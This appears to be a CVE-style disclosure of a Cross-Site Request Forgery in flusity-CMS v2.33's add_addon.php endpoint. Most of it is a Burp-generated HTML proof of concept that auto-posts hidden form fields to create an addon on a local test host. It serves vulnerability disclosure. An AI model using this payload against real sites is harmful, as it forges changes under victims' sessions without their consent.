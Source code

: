 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /cover/addons/social_block_links/action/add_addon.php

![1](https://github.com/TinkAnet/cve/assets/118334129/dc0d3f25-3733-4b08-ad56-dbe7cf2299e4)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/cover/addons/social_block_links/action/add_addon.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="mode" value="create" />
      <input type="hidden" name="addon&#95;post&#95;edit&#95;id" value="" />
      <input type="hidden" name="id" value="16" />
      <input type="hidden" name="addon&#95;place&#95;id" value="8" />
      <input type="hidden" name="addon&#95;menu&#95;id" value="0" />
      <input type="hidden" name="profiles&#95;name&#95;1" value="cs" />
      <input type="hidden" name="social&#95;profiles&#95;link&#95;url&#95;1" value="123" />
      <input type="hidden" name="fa&#95;icone&#95;code&#95;1" value="123" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/TinkAnet/cve/assets/118334129/7ea64df4-1883-48cd-91bd-d62ba88ec805)


Successed

![3](https://github.com/TinkAnet/cve/assets/118334129/6bd57a07-ae65-433d-8eda-fa59ebece0ab)
